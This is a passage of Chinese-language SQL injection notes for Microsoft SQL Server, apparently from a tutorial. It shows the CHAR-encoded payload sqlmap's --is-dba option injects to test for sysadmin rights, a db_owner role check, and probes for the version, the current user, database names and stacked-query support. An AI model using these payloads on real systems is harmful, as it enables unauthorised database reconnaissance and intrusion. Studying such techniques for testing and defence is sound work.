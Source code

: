 

我们在sqlmap中使用 --is-dba 也就是判断的你是否为管理员权限

```
select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))

```



#### 数据库级别的角色

```
select IS_MEMBER('db_owner')  

```

![mysql](./img/1.2.2.png)




### 0x01 基本信息

```
@@version // 数据库版本

user  //获取当前数据库用户名

db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库

;select user //查询是否支持多语句

```
